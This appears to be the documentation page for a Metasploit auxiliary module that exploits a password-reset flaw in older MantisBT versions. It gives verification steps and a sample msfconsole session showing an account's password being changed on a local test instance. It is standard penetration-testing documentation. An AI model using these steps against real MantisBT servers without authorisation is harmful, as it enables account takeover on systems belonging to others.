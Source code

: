 ## Vulnerable Application

MantisBT before 1.3.10, 2.2.4, and 2.3.1, that can be downloaded
on
[Sourceforge](https://sourceforge.net/projects/mantisbt/files/mantis-stable/).

## Verification Steps

  1. Install the vulnerable software
  2. Start msfconsole
  3. Do: ```use auxiliary/admin/http/mantisbt_password_reset```
  4. Do: ```set rhost```
  5. Do: ```run```
  6. If the system is vulnerable, the module should tell you that the password
     was successfully changed.

## Scenarios

  ```
   msf > use auxiliary/admin/http/mantisbt_password_reset
   msf auxiliary(mantisbt_password_reset) > set rport 8082
   rport => 8082
   msf auxiliary(mantisbt_password_reset) > set rhost 127.0.0.1
   rhost => 127.0.0.1
   msf auxiliary(mantisbt_password_reset) > run
   
   [+] Password successfully changed to 'ndOQTmhQ'.
   [*] Auxiliary module execution completed
   msf auxiliary(mantisbt_password_reset) > 
  ```

